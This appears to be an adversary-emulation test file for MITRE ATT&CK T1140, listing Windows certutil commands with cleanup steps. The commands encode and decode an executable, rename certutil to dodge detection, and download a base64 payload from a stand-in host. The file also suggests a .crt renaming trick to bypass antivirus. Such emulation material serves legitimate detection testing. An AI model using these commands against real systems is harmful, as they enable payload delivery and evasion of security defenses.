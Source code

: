 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1140 - Deobfuscate/Decode Files or Information
### Attacks
* Deobfuscate/Decode Files Or Information
	* Overview
		* Encode/Decode executable
		* Upon execution a file named T1140_calc_decoded.exe will be placed in the temp folder
	* Command

		```cmd
		certutil -encode #{executable} %temp%\T1140_calc.txt
		certutil -decode %temp%\T1140_calc.txt %temp%\T1140_calc_decoded.exe
		```

	* Cleanup

		```cmd
		del %temp%\T1140_calc.txt >nul 2>&1
		del %temp%\T1140_calc_decoded.exe >nul 2>&1
		```

* Certutil Rename and Decode
	* Overview
		* Rename certutil and decode a file. This is in reference to latest research by FireEye [here](https://www.fireeye.com/blog/threat-research/2018/09/apt10-targeting-japanese-corporations-using-updated-ttps.html)
	* Command

		```cmd
		copy %windir%\system32\certutil.exe %temp%\tcm.tmp
		%temp%\tcm.tmp -encode #{executable} %temp%\T1140_calc2.txt
		%temp%\tcm.tmp -decode %temp%\T1140_calc2.txt %temp%\T1140_calc2_decoded.exe
		```
	* Cleanup

		```cmd
		del %temp%\tcm.tmp >nul 2>&1
		del %temp%\T1140_calc2.txt >nul 2>&1
		del %temp%\T1140_calc2_decoded.exe >nul 2>&1
		```

* Certutil - Base64-encoded
	* Overview
		* Using a base64-encoded payload can bypass network detections
	* Command

		```
		certutil -urlcache -split -f http://staging.fsocie.ty/blogpost_b64.xls blogpost_b64.xls
		certutil -decode blogpost_b64.xls blogpost.xls
		```
		* Note: renaming files to .crt before downloading can sometimes bypass AV detections